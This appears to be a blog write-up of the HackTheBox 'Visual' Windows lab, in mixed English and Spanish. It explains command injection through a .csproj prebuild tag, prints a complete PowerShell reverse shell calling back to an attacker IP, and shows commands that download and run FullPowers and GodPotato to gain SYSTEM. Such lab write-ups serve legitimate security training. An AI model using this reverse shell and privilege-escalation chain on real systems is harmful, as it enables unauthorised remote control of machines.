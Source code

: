 ```yaml
---
layout: post
title: "Visual-Windows-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/a75ac8ed04e6e728547538bfa41cfc68.webp
---
```


# Visual

HackTheBox: Medium

<aside>
💡 Visual is a windows machine which handles with repositories and build visual studio projects

</aside>

## 1: Enumeration
<br/><br/>
- nmap scanning
<br/><br/>
![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled.png' | relative_url }})
<br/><br/>
We find there’s a http service hosted in apache with php
<br/><br/>
![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_1.png' | relative_url }})
<br/><br/>
This service allows to make the build project in a automated way, we can see a section where we just put the url repo and wait for it.
<br/><br/>
First at all we test functionality
<br/><br/>
To get into the machine successfully we need some files:
<br/><br/>
1. A repository with c# code
2. A file .csproj and .sln
3. A rev shell to access to the machine once the code is injected
<br/><br/>
> The machine doesn’t have access to internet therefore we need to run a private server where we could get the repo, we get this in this way
> 
<br/><br/>
```bash
git --bare clone external_repo
cd repo/.git
git --bare update-server-info
mv hooks/post-updte.sample hooks/post-update
cd ..
python -m http.server 8000
```
<br/><br/>
> .csproj = This file has the possibility of iinject commands through prebuild tag.
> 
<br/><br/>
![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_2.png' | relative_url }})
<br/><br/>
## 2: User flag
<br/><br/>
```bash
$socket = new-object System.Net.Sockets.TcpClient('10.10.14.14', 2222);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do
{
	$writer.Flush();
	$read = $null;
	$res = ""
	while($stream.DataAvailable -or $read -eq $null) {
		$read = $stream.Read($buffer, 0, 1024)
	}
	$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
	if(!$out.equals("exit")){
		$args = "";
		if($out.IndexOf(' ') -gt -1){
			$args = $out.substring($out.IndexOf(' ')+1);
			$out = $out.substring(0,$out.IndexOf(' '));
			if($args.split(' ').length -gt 1){
                $pinfo = New-Object System.Diagnostics.ProcessStartInfo
                $pinfo.FileName = "cmd.exe"
                $pinfo.RedirectStandardError = $true
                $pinfo.RedirectStandardOutput = $true
                $pinfo.UseShellExecute = $false
                $pinfo.Arguments = "/c $out $args"
                $p = New-Object System.Diagnostics.Process
                $p.StartInfo = $pinfo
                $p.Start() | Out-Null
                $p.WaitForExit()
                $stdout = $p.StandardOutput.ReadToEnd()
                $stderr = $p.StandardError.ReadToEnd()
                if ($p.ExitCode -ne 0) {
                    $res = $stderr
                } else {
                    $res = $stdout
                }
			}
			else{
				$res = (&"$out" "$args") | out-string;
			}
		}
		else{
			$res = (&"$out") | out-string;
		}
		if($res -ne $null){
        $writer.WriteLine($res)
    }
	}
}While (!$out.equals("exit"))
$writer.close();
$socket.close();
$stream.Dispose()
```
<br/><br/>
Con este rev shell ponemos en escucha en el puerto establecido y ya obtenemos acceso 
<br/><br/>
```powershell
cmd /c type c:\Users\enox\Desktop\user.txt
```
<br/><br/>
## 3: Priv esc
<br/><br/>
wrapper pred:
<br/><br/>
```powershell
cd C:\xampp\htdocs\uploads
```
<br/><br/>
Revisamos privilegios
<br/><br/>
```powershell
whoami /priv
```
<br/><br/>
Check some privileges and look “ImpersonatePrivilege” is not present
<br/><br/>
![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_3.png' | relative_url }})
<br/><br/>
We cannot modify or access to files but we can create them
<br/><br/>
Use the server early running and add fullpowers, a POC that rest default privileges
<br/><br/>
With impersonate privileges we can assume other identities, sometime interesting that happens to me in this machine is that i had to reset the machine to make work fullpowers properly
<br/><br/>
```powershell
cmd /c powershell Invoke-WebRequest -Uri http://10.10.00.000:0000/fullpowers.exe -OutFile Fullpowers.exe
fullpowers.exe
```
<br/><br/>
![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_4.png' | relative_url }})
<br/><br/>
We got all priv is time to use godpotato and get the whole power
<br/><br/>
```powershell
powershell Invoke-WebRequest -Uri http://10.10.14.14:8000/GodPotato.exe -OutFile GodPotato.exe
godPotato-NET64 -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
```
<br/><br/>
There was a problem, godpotato which will allow us to run commands as system had 3 exe’s and only the 64 one worked
<br/><br/>
Machine pwned!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
